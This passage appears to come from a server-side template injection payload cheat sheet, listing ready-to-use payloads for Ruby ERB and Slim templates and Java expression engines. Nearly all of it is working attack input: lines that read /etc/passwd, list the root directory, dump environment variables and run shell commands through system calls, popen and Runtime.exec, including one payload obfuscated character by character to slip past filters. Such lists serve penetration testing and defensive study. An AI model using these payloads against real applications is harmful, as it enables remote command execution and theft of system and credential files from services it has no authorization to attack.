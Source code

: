 ### ERB:

    <%= 7 * 7 %>

### Slim:

    #{ 7 * 7 }

**Ruby - Retrieve /etc/passwd**

    <%= File.open('/etc/passwd').read %>

**Ruby - List files and directories**

    <%= Dir.entries('/') %>

[](#ruby---code-execution)

**Ruby - Code execution**

- Execute code using SSTI for ERB engine.

  ```
    <%= system('cat /etc/passwd') %>
    <%= `ls /` %>
    <%= IO.popen('ls /').readlines()  %>
    <% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
    <% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
  ```

- Execute code using SSTI for Slim engine.

    `#{ %x|env| }`


## Java

### Java - Basic injection

    ${7*7}
    ${{7*7}}
    ${class.getClassLoader()}
    ${class.getResource("").getPath()}
    ${class.getResource("../../../../../index.htm").getContent()}

### Java - Retrieve the system’s environment variables

    ${T(java.lang.System).getenv()}

### Java - Retrieve /etc/passwd

    ${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

    ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
